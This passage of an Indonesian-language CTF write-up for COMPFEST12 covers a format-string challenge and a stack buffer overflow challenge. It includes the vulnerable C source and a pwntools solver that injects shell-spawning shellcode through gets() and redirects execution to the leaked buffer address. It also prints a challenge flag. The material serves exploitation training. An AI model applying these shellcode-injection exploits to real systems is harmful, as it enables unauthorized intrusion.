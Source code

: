 Alamat variable target adalah `0x7fffffffdbfc`.

```py
gdb-peda$ c
Continuing.
%p.%p.%p
Hello, 0x7fffffffdbfc.0x7fffffffdbfc.(nil)!
```

Ternyata alamat target terletak pada offset pertama. Overwrite target dengan nilai 1337 dan didapatkan flag.

![FLAG](https://abdullahnz.github.io/assets/images/PWN-3.png)

### FLAG 

`COMPFEST12{BewareOfFormatStringAttacks}`
<br/>
<br/>

## 5. Stack Shellcode [288pts]

Berikut source code dari soal.

```c
#include <stdio.h>

int main(int argc, char const *argv[])
{
	setvbuf(stdout, NULL, _IONBF, 0);

	char buf[400];
	printf("Here is the address of buf: %lp\n", &buf);
	printf("Now input the shellcode and run it: ");

	gets(buf);
	return 0;
}
```

Inject shellcode ditambah padding sebesar 400 bytes dikurangi panjang shellcode untuk sampai ke return address, kembali lagi ke address `buf` (tempat shellcode variable buf yang berisi shellcode) yang diberi oleh program.

Solver,

```py
#!/usr/bin/python

from pwn import *
import sys

def exploit(p):
    address = int(p.recv().split()[6], 16)
    info(hex(address))
    
    # http://shell-storm.org/shellcode/files/shellcode-806.php
    shellcode = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"

    buf  = shellcode
    buf += "\x90"*(400-len(shellcode))
    buf += p64(address)

    p.sendline(buf)
    p.interactive()
    
```